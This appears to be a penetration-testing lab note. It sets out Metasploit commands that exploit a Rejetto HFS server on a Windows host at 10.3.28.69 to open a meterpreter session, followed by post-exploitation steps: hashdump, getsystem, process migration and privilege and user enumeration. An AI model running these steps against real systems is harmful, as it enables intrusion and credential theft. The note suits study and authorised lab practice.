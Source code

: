 ```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a windows_post
msf6> setg rhosts 10.3.28.69
msf6> db_nmap -sV 10.3.28.69

msf6> search rejetto
msf6> use windows/http/rejetto_hfs_exec
msf6> run

meterpreter> sysinfo
meterpreter> help
```

There are more tools since we are on a Windows OS.

| Command      | Description                             |
| ------------ | --------------------------------------- |
| `screenshot` | Take a screenshot of the screen target. |
| `getsystem`  |                                         |
| `hashdump`   | Dump all hashes from the target.        |
| `show_mount` | Display all mounted file system.        |

```bash
meterpreter> migrate 2852  # powershell.exe
# CTRL+Z
```

**Architecture migration**

```bash
msf6> use windows/manage/migrate
msf6> set session 1
msf6> run
msf6> sessions 1
meterpreter> sysinfo
# CTRL+Z
```

**Privilege enumeration**

```bash
msf6> use post/windows/gather/win_privs
msf6> set session 1
msf6> run
```

**Logged on user enumeration**

```bash
msf6> use post/windows/gather/enum_logged_on_users
msf6> set session 1
msf6> run
```
